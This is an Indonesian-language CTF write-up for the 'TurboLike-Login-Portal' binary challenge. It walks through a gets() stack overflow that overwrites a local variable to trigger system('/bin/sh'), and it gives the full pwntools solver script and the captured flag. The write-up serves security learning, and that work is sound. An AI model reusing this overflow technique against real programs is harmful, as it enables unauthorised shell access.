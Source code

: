# TurboLike-Login-Portal.md
## SOLUTION 

1. Pada challenge ini kita diberikan sebuah binary file dengan arsitektur 64 bit - not stripped.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/1b3f654d-3cf3-44ac-87e4-7e3130fd15b7)


2. Lalu saya mengecek protections yang di apply ke binary file.

> RESULT


![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/b623a709-b88a-4e2e-8f61-9580b19ffac3)


3. Langsung saja kita decompile file binary untuk mengidentifikasi kerentanan.
4. Terdapat fungsi login_user yang dipanggil pada fungsi main. Pada fungsi login_user ini ditemukan kerentanan potensial untuk seragan bufferoverflow yakni pada fungsi gets().
5. Lalu ditemukan adanya pemanggilan system("/bin/sh") yang nantinya akan melakukan "spawn shell". Namun variabel local_18 harus bernilai 1, kita dapat mengubah value yang di stored pada variabel dengan melakukan bufferoverflow.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/813e53a1-cf03-4354-85ea-8f42bb6a8247)


6. Dikarenakan buffer local_58 sebesar 64 bytes, maka dengan memasukkan exact 64 bytes tentunya akan menyebabkan bufferoverflow mengingat tidak adanya ruang untuk null terminator -> \0. Berikut adalah solver yang saya gunakan:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

offset = 64 

p = flat([
    asm('nop') * offset,
    0x1 # 1
])

sh.sendlineafter(b':', p)
sh.interactive()
```

7. Sebelumnya kita tes dulu secara local.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/f71c50d6-f01e-4bb2-afa4-87172edfa3e9)


8. Kita berhasil mendapatkan shell, yang berarti kita telah berhasil mengubah value dari stack variable.
9. Langsung saja kita send script untuk remote server.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/d94e47ba-41c1-4c7a-b301-05e69e241db3)


# FLAG: ForestyHC{overwrit1ng_another_variable_on_stack_9af46a}
